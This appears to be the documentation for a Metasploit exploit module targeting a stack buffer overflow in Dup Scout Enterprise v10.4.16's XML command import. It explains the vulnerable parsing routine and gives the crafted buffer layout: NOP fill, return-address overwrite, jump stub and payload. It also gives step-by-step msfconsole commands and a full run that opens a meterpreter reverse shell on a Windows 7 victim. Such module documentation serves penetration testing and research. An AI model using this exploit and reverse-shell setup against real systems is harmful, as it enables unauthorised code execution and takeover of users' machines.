## Overview

This module exploits a buffer overflow in libpal.dll that is used by [Dup Scout Enterprise v10.4.16](http://www.dupscout.com/setups/dupscoutent_setup_v10.4.16.exe). The buffer overflow occurs during a call to the SCA_XmlParser::GetToken function when a user-supplied Command file with a crafted name attribute is imported to the Dup Scout application. The SCA_XmlParser::GetToken function is passed a heap pointer as an argument, which was created by the SCA_XmlParser::LoadXmlFile function and contains data from the user-supplied Command file, and a pointer to a stack buffer that was created in the SCA_XmlParser::ParseXmlElement function. While parsing the name attribute, the SCA_XmlParser::GetToken function copies from the heap buffer to the stack buffer until a single quote (to match name=', or a double quote to match name=") is found or until it finishes reading from the allocated heap buffer.

## Verification Steps

- [ ] Install Dup Scout Enterprise on target system
- [ ] `./msfconsole`
- [ ] `use exploit/windows/fileformat/dupscout_xml`
- [ ] `set payload windows/meterpreter/reverse_tcp`
- [ ] `set lhost <lhost>`
- [ ] `run`
- [ ] `use exploit/multi/handler`
- [ ] `set payload windows/meterpreter/reverse_tcp`
- [ ] `set lhost <lhost>`
- [ ] `run`
- [ ] From the DupScout Enterprise menu select Command -> Import Command
- [ ] Select file generated by metasploit
- [ ] Get a session

## Exploiting the Vulnerability

The vulnerability can be exploited when the size of the name attribute is greater than 1560 bytes.

Note: The allocated stack buffer size is 1564 bytes but the first four bytes are filled with `\xff` during execution of the SCA_XmlParser::GetToken function.

Since the stack buffer was allocated as a local variable for the SCA_XmlParser::ParseXmlElement function, the program's control flow isn't taken over until the return of the SCA_XmlParser::ParseXmlElement function even though the return value is overwritten during execution of the SCA_XmlParser::GetToken function.

The format of the crafted Command file will be:

```
buf = "<?xml ?><a name='"
buf << make_nops(1560)   # Fill up the stack buffer
buf << addr_of_jmp_esp   # overwrite the return address for SCA_XmlParser::ParseXmlElement
buf << make_nops(16)     # account for ret 10h in SCA_XmlParser::ParseXmlElement
buf << inst1             # LEA EAX, [ESP+14h] # Prepare EAX to jump to payload
buf << inst2             # JMP EAX # Jump to our desired location
buf << make_nops(14)     # Fill past possibly corrupted location
buf << payload           # Location that is jumped to
```

Note: The last make_nops will offset the location of the payload. The offset is included to account for writes to the stack buffer that after the user-supplied Command file has been processed.

## Example Execution

This exploit was tested on Windows 7 SP1 x64.

```
msf5 > use exploit/windows/fileformat/dupscout_xml
msf5 exploit(windows/fileformat/dupscout_xml) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/dupscout_xml) > set lhost 172.22.222.120
lhost => 172.22.222.120
msf5 exploit(windows/fileformat/dupscout_xml) > run

[*] Creating 'msf.xml' file ...
[+] msf.xml stored at /home/msfdev/.msf4/local/msf.xml
msf5 exploit(windows/fileformat/dupscout_xml) > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 172.22.222.120
lhost => 172.22.222.120
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.22.222.120:4444 
[*] Sending stage (179779 bytes) to 172.22.222.122

meterpreter > getuid
Server username: .\pwnduser
meterpreter > sysinfo
Computer        : .
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```
